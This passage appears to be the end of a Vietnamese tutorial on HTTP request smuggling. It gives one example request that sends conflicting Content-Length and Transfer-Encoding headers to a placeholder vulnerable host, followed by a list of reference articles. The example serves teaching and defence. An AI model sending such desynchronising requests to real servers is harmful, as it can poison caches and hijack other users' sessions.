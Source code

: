 VD:

```http!
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

## Tham khảo

- https://websitehcm.com/kiem-tra-lo-hong-bao-mat-http-splitting-smuggling/
- https://websitehcm.com/tim-hieu-tan-cong-http-response-splitting/
- https://nhattruong.blog/2022/09/02/http-request-smuggling-toan-tap/
- https://mic.gov.vn/atantt/Pages/TinTuc/145636/Phat-hien-4-bien-the-moi-cua-HTTP-Request-Smuggling.html
- https://whitehat.vn/threads/http-request-smuggling.5758/
- https://www.imperva.com/learn/application-security/http-request-smuggling/
